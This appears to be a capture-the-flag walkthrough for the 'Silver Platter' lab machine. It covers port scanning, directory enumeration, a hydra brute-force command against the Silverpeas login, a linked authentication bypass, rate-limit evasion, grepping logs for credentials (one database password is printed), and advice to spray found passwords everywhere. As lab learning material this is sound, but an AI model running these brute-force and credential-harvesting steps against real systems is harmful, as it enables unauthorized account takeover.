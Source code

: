 # Silver Platter

```nmap
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-29 02:27 EDT
Nmap scan report for 10.10.154.145
Host is up (0.033s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 1b:1c:87:8a:fe:34:16:c9:f7:82:37:2b:10:8f:8b:f1 (ECDSA)
|_  256 26:6d:17:ed:83:9e:4f:2d:f6:cd:53:17:c8:80:3d:09 (ED25519)
80/tcp   open  http       nginx 1.18.0 (Ubuntu)
|_http-title: Hack Smarter Security
|_http-server-header: nginx/1.18.0 (Ubuntu)
8080/tcp open  http-proxy
|_http-title: Error
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     Connection: close
|     Content-Length: 74
|     Content-Type: text/html
|     Date: Thu, 29 May 2025 06:27:35 GMT
|     <html><head><title>Error</title></head><body>404 - Not Found</body></html>
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SMBProgNeg, SSLSessionReq, Socks5, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Length: 0
|     Connection: close
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     Connection: close
|     Content-Length: 74
|     Content-Type: text/html
|     Date: Thu, 29 May 2025 06:27:34 GMT
|_    <html><head><title>Error</title></head><body>404 - Not Found</body></html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.94SVN%I=7%D=5/29%Time=6837FE57%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,C9,"HTTP/1\.1\x20404\x20Not\x20Found\r\nConnection:\x20clos
SF:e\r\nContent-Length:\x2074\r\nContent-Type:\x20text/html\r\nDate:\x20Th
SF:u,\x2029\x20May\x202025\x2006:27:34\x20GMT\r\n\r\n<html><head><title>Er
SF:ror</title></head><body>404\x20-\x20Not\x20Found</body></html>")%r(HTTP
SF:Options,C9,"HTTP/1\.1\x20404\x20Not\x20Found\r\nConnection:\x20close\r\
SF:nContent-Length:\x2074\r\nContent-Type:\x20text/html\r\nDate:\x20Thu,\x
SF:2029\x20May\x202025\x2006:27:34\x20GMT\r\n\r\n<html><head><title>Error<
SF:/title></head><body>404\x20-\x20Not\x20Found</body></html>")%r(RTSPRequ
SF:est,42,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Length:\x200\r\nC
SF:onnection:\x20close\r\n\r\n")%r(FourOhFourRequest,C9,"HTTP/1\.1\x20404\
SF:x20Not\x20Found\r\nConnection:\x20close\r\nContent-Length:\x2074\r\nCon
SF:tent-Type:\x20text/html\r\nDate:\x20Thu,\x2029\x20May\x202025\x2006:27:
SF:35\x20GMT\r\n\r\n<html><head><title>Error</title></head><body>404\x20-\
SF:x20Not\x20Found</body></html>")%r(Socks5,42,"HTTP/1\.1\x20400\x20Bad\x2
SF:0Request\r\nContent-Length:\x200\r\nConnection:\x20close\r\n\r\n")%r(Ge
SF:nericLines,42,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Length:\x2
SF:00\r\nConnection:\x20close\r\n\r\n")%r(Help,42,"HTTP/1\.1\x20400\x20Bad
SF:\x20Request\r\nContent-Length:\x200\r\nConnection:\x20close\r\n\r\n")%r
SF:(SSLSessionReq,42,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Length
SF::\x200\r\nConnection:\x20close\r\n\r\n")%r(TerminalServerCookie,42,"HTT
SF:P/1\.1\x20400\x20Bad\x20Request\r\nContent-Length:\x200\r\nConnection:\
SF:x20close\r\n\r\n")%r(TLSSessionReq,42,"HTTP/1\.1\x20400\x20Bad\x20Reque
SF:st\r\nContent-Length:\x200\r\nConnection:\x20close\r\n\r\n")%r(Kerberos
SF:,42,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Length:\x200\r\nConn
SF:ection:\x20close\r\n\r\n")%r(SMBProgNeg,42,"HTTP/1\.1\x20400\x20Bad\x20
SF:Request\r\nContent-Length:\x200\r\nConnection:\x20close\r\n\r\n")%r(LPD
SF:String,42,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Length:\x200\r
SF:\nConnection:\x20close\r\n\r\n")%r(LDAPSearchReq,42,"HTTP/1\.1\x20400\x
SF:20Bad\x20Request\r\nContent-Length:\x200\r\nConnection:\x20close\r\n\r\
SF:n");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (93%), Linux 2.6.39 - 3.2 (93%), Linux 3.1 - 3.2 (93%), Linux 3.2 - 4.9 (93%), Linux 3.7 - 3.10 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   33.16 ms 10.11.0.1
2   33.40 ms 10.10.154.145

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 84.48 seconds
```

## port 22: Check if ssh is password or key authentication
```
The authenticity of host '10.10.154.145 (10.10.154.145)' can't be established.
ED25519 key fingerprint is SHA256:WFcHcO+oxUb2E/NaonaHAgqSK3bp9FP8hsg5z2pkhuE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.154.145' (ED25519) to the list of known hosts.
root@10.10.154.145's password: 
```

is password authentication, so can bf it

## port 80
- first, see any public vuln for the version, this current version does not have any RCE vulnerabilities
- Use dirsearch and check for VHOST

directories
```
Target: http://10.10.154.145/

[02:45:36] Starting:                                                                                                                                                                             
[02:45:54] 301 -  178B  - /assets  ->  http://10.10.154.145/assets/         
[02:45:54] 403 -  564B  - /assets/                                          
[02:46:07] 301 -  178B  - /images  ->  http://10.10.154.145/images/         
[02:46:07] 403 -  564B  - /images/                                          
[02:46:09] 200 -   17KB - /LICENSE.txt                                      
[02:46:20] 200 -  771B  - /README.txt           
```

vhosts
- no vhost found

Website features
![01](images/Scriptkiddy.png)

Info Disclosure
software: Silverpeas
username: scr1ptkiddy

login page was found at http://IP:8080/silverpeas
![01](images/silverpeaslogin.png)

Use cewl to make custom password list
`cewl url`
Then we use burpsuite turbo intruder to bypass bf rate limit

Custom pw spraying with hydra
`hydra -l scr1ptkiddy -P /usr/share/wordlists/rockyou.txt 10.10.154.145 -s 8080 http-post-form "/silverpeas/AuthenticationServlet:Login=^USER^&Password=^PASS^&DomainId=0:F=Login or password incorrect" -V -t 2`


Silverpeas is also bypassable
- https://gist.github.com/ChrisPritchard/4b6d5c70d9329ef116266a6c238dcb2d

## Post Exploit Enumeration

Good resources by pentest everything: https://viperone.gitbook.io/pentest-everything/everything/everything-linux/privilege-escalation-checklist

check `echo $PATH | tr ":" "\n"` to see if we can modify and do path abuse

uname -a (to check kernal exploits)
```
Linux silver-platter 5.15.0-91-generic #101-Ubuntu SMP Tue Nov 14 13:30:08 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```

sudo -l (gtfo bin)
```
Sorry, user tim may not run sudo on silver-platter.
```

id 
```
uid=1001(tim) gid=1001(tim) groups=1001(tim),4(adm)
```

Interesting users in /etc/passwd (our next target)
```
root:x:0:0:root:/root:/bin/bash
tyler:x:1000:1000:root:/home/tyler:/bin/bash
tim:x:1001:1001::/home/tim:/bin/bash
```

How to take over tyler's account now, we will look at /opt directory for a script we can abuse, and then we want to look into /var folder, if there is a web server running, 
all the files are stored in var folder (www), and sometimes we can find useful notes (logins or scripts we can abuse)

searching `grep -ir password | grep tyler` in the /var/log folder, since adm group allows to read log files

```
DB_NAME=Silverpeas -e DB_USER=silverpeas -e DB_PASSWORD=_Zd_zx7N823/
```
TIP: Whenever you find a password, you want to spray it everywhere, because humans like to reuse password
